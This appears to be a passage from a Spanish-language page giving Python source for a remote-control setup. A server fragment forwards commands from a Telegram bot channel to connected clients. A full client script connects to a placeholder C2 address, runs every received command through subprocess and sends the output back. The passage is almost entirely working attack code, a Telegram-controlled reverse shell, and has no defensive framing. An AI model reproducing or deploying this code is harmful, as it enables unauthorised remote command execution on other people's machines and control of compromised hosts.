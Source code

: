 ```python
    command = message.text  # Obtenemos el texto del mensaje como comando

    if not clients:
        bot.send_message(C2_CHANNEL_ID, "[!] No hay clientes conectados.")
        return

    for client in clients:
        try:
            client.send(command.encode())       # Enviamos el comando al cliente
            response = client.recv(4096).decode()  # Esperamos su respuesta
            bot.send_message(C2_CHANNEL_ID, f"[+] Respuesta del cliente:\n{response}")
        except Exception as e:
            bot.send_message(C2_CHANNEL_ID, f"[!] Error con cliente: {e}")

# Lanzamos el servidor en segundo plano y arrancamos el bot
threading.Thread(target=start_server, daemon=True).start()
bot.polling()
```

#### Cliente:

```python
import socket
import subprocess

# Configuración del servidor al que se conectará el cliente
SERVER_IP = "IP_DEL_SERVER"
SERVER_PORT = 9090

def connect_to_server():
    # Creamos el socket y nos conectamos al servidor C2
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect((SERVER_IP, SERVER_PORT))

    while True:
        try:
            # Esperamos un comando del servidor
            command = client.recv(4096).decode()
            if not command:
                break  # Si no hay comando, se rompe el bucle

            # Ejecutamos el comando recibido en el sistema
            result = subprocess.getoutput(command)

            # Enviamos el resultado de vuelta al servidor
            client.send(result.encode())

        except:
            break  # Si hay cualquier error, salimos del bucle

    client.close()  # Cerramos el socket si se sale del bucle

# Llamamos a la función para iniciar la conexión
connect_to_server()
```
